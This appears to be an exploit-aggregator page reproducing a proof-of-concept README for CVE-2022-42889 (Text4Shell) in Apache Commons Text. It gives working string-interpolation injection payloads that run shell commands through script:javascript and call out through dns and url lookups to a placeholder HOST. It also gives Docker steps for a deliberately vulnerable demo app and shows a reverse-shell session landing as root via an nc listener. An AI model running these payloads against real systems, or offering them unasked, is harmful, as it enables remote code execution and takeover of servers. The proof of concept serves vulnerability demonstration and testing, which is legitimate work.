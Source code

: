 ```yaml
---
title: Exploit for Code Injection in Apache Commons Text exploit
url: https://sploitus.com/exploit?id=8F9EE8E9-ED89-51C0-B182-A5C7A801C270&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2022-10-19
fetch_date: 2025-10-03T20:12:20.909391
---
```


# Exploit for Code Injection in Apache Commons Text exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Code Injection in Apache Commons\_Text CVE-2022-42889

2022-10-18 | CVSS 9.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=8F9EE8E9-ED89-51C0-B182-A5C7A801C270
# CVE-2022-42889-POC
A simple demo application that shows how to exploit the CVE-2022-42889 vulnerability.
Utilizes OOB (Out of Band) services to demonstrate dns and url prefixes.

JavaDocs for commons-text interpolation [commons-text JavaDocs](https://commons.apache.org/proper/commons-text/javadocs/api-release/org/apache/commons/text/StringSubstitutor.html)

Example interpolations
* script:javascript ("${script:javascript:java.lang.Runtime.getRuntime().exec('touch /tmp/blop')}")
* dns ("${dns:address|HOST}")
* url ("${url:UTF-8:http://HOST")

Quote from Rapid7
>The vulnerability has been compared to Log4Shell since it is an open-source library-level vulnerability that is likely to impact a wide variety of software applications that use the relevant object.
>However, initial analysis indicates that this is a bad comparison. The nature of the vulnerability means that unlike Log4Shell, it will be rare that an application uses the vulnerable component of Commons Text to process untrusted, potentially malicious input.
# Prerequisites
* docker
* java
* maven

Java and maven can be skipped if one fetch image from [Docker Hub](https://hub.docker.com/r/korteke/text4shell)
# Usage

Build application
```
mvn clean package
```

Build docker image
```
docker build -t cve-2022-42889-poc .
```

Run docker image
```
docker run --rm -p 8081:8081 -t cve-2022-42889-poc
```

Access application and follow instructions
```
open http://localhost:8081
```

Check that the vulnerability creates a new file in the /tmp/ directory (/tmp/blop)
```
➜  ~ docker exec -ti cve-2022-42889-poc /bin/ls /tmp

blop		 tomcat-docbase.8081.12439436974042217796
hsperfdata_root  tomcat.8081.2549096106233509364
➜  ~
```

Reverse shell. Launch "nc" on your local machine
```
➜  ~ nc -lv 4242
root@7cfcd6a39a61:/# whoami && uname -a
whoami && uname -a
root
Linux 7cfcd6a39a61 5.10.76-linuxkit #1 SMP Mon Nov 8 10:21:19 UTC 2021 x86_64 GNU/Linux
root@7cfcd6a39a61:/#
```

#### UI
![](images/cve-2022-42889-main.png)

#### Network interaction proof. Tested with local interactsh-client.
![](images/cve-2022-42889-interactsh.png)

### More information
* [NIST NVD](https://nvd.nist.gov/vuln/detail/CVE-2022-42889)
* [Rapid 7](https://www.rapid7.com/blog/post/2022/10/17/cve-2022-42889-keep-calm-and-stop-saying-4shell/)
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)